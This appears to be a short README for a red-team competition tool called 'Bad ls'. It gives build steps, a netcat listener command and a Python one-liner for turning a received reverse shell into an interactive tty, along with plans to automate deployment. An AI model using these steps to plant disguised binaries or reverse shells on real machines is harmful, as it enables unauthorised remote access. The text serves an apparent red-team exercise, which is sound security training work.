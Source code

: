 # CDT 2025 Red Team tool
## Bad ls

Note: build executable on debian bookworm instance

Install libpython3.11
```bash
apt install libpython3.11
```

In the venv, install requirements
```bash
pip install -r requirements.txt
```

Build python script into linux binary
```bash
./convert_to_linux_binary.sh
```

## Starting listener
Port number is subject to change
```bash
nc -nvlp 4444
```

## Upgrading reverse shell to fully interactive tty
Execute this after recieving a netcat connection
Useful for being able to use sudo, etc. 
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

# TODO
Make "all-in-one" deploy script that will build and then deploy to box
Make reverse shell connect to every red team host instead of just one host

> Author: Daniel Wolosiuk

Oct 17, 2025

